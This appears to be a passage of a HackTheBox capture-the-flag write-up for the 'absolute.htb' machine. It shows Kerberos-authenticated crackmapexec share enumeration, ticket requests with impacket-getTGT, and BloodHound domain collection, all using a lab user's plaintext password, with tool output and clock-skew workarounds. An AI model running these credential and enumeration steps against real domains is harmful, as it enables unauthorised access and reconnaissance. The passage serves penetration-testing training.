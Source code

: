 ```bash

faketime '2023-11-20 17:36:00' crackmapexec smb $IP -u d.klay -p 'Darkmoonsky248girl' -k
SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.59   445    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl 
❯ faketime '2023-11-20 17:36:00' crackmapexec smb $IP -u d.klay -p 'Darkmoonsky248girl' -k --shares
SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.59   445    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl 
SMB         10.129.229.59   445    DC               [+] Enumerated shares
SMB         10.129.229.59   445    DC               Share           Permissions     Remark
SMB         10.129.229.59   445    DC               -----           -----------     ------
SMB         10.129.229.59   445    DC               ADMIN$                          Remote Admin
SMB         10.129.229.59   445    DC               C$                              Default share
SMB         10.129.229.59   445    DC               IPC$            READ            Remote IPC
SMB         10.129.229.59   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.229.59   445    DC               Shared                          
SMB         10.129.229.59   445    DC               SYSVOL          READ            Logon server share 
```

##### Method 2, impacket-getTGT
I'd perfer it since it doesn't need to make configurations. Although, it requires to know the `-dc-ip`

```bash
impacket-getTGT absolute.htb/d.klay:Darkmoonsky248girl -dc-ip dc.absolute.htb
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Saving ticket in d.klay.ccache

rm /tmp/krb5cc_1000
klist
klist: No credentials cache found (filename: /tmp/krb5cc_1000)

export KRB5CCNAME=d.klay.ccache
faketime '2023-11-20 17:50:00' crackmapexec smb $IP -u d.klay -p 'Darkmoonsky248girl' -k --shares
SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.59   445    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl 
SMB         10.129.229.59   445    DC               [+] Enumerated shares
```

### Bloodbound-python
It requires adding `nameserver Victim's DC_IP 10.129.229.59`

```bash
faketime '2023-11-20 18:49:00' bloodhound-python -u d.klay -p 'Darkmoonsky248girl' -k -d absolute.htb -dc dc.absolute.htb
INFO: Found AD domain: absolute.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc.absolute.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Found 18 users
INFO: Connecting to LDAP server: dc.absolute.htb
INFO: Found 55 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.absolute.htb
INFO: Done in 00M 23S
```
